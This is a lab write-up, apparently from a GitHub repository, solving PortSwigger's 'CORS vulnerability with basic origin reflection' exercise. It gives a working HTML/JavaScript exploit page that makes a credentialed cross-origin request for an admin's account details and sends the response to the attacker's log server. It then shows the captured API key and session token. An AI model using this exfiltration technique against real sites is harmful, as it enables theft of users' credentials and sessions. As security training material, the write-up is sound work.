





# Lab: CORS vulnerability with basic origin reflection

**Link**: https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack

**Solution**:

In the proxy history, you will notice that there is a GET request that accept credentails and any origin

<p align="center" width="100%">
  
</p>

<p align="center" width="100%">
  
</p>

Then, we can build a JavaScript code to send the credentials of this website (admin) to our server.

Suppose, we build the following html and send it to the admin to click on it

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Test</title>
</head>
<body>
    <script>
        // When page loaded
        // 1- Send a HTTP GET request to https://0aeb003b04ada55cc0090ca40017000a.web-security-academy.net (will accepts its)
        // 2- After received the response
        // 3- Send it to our log server 
        var req = new XMLHttpRequest();
        var url = "https://0aeb003b04ada55cc0090ca40017000a.web-security-academy.net/accountDetails";
        req.open("Get", url, true);
        req.withCredentials = true;
        req.send(null); // send nothing in the body (GET)
        req.onreadystatechange = function() {
            if (req.readyState == XMLHttpRequest.DONE) {
                fetch("/log?key"+ req.responseText);
            }
        };
    </script>
</body>
</html>

```

Store this code to the exploit server of portswigger

When click on deliver to victim and see the access log, you will see that the request have received to our server

<p align="center" width="100%">
  
</p>

> `/log?key{%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22RhXsRiHSkQ148gTLld1vBaSgvcwZgqYZ%22,%20%20%22sessions%22:%20[%20%20%20%20%22nmYjzWwENbSVJa0xLBg2M8iYQKOuFRMm%22%20%20]}`
> 

if we decode it using URL

<p align="center" width="100%">
  
</p>

you will see the admin api key

/log?key{ "username": "administrator", "email": "", "apikey": "RhXsRiHSkQ148gTLld1vBaSgvcwZgqYZ", "sessions": [ "nmYjzWwENbSVJa0xLBg2M8iYQKOuFRMm" ]}

<p align="center" width="100%">
  
</p>
